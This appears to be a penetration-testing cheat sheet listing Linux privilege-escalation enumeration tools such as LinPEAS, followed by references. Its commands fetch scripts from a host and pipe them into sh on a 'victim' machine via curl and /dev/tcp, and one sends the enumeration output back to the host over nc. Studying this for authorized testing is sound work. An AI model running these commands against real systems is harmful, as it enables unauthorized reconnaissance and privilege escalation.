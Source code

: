 ##### UNIX-PrivEsc
```bash
https://github.com/FuzzySecurity/Unix-PrivEsc
```

##### LinPEAS
```bash
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victi

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors

# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

# References
[LinEnum](https://github.com/rebootuser/LinEnum)

[LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)

[Unix-privesc-check](https://pentestmonkey.net/tools/audit/unix-privesc-check)

[mimipenguin](https://github.com/huntergregal/mimipenguin)

[Local Linux Enumeration & Privilege Escalation Cheatsheet](https://web.archive.org/web/20200218150604/https:/www.rebootuser.com/?p=1623)

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Unix-PrivEsc](https://github.com/FuzzySecurity/Unix-PrivEsc)

[PEASS (LinPEAS / WinPEAS)](https://github.com/carlospolop/PEASS-ng)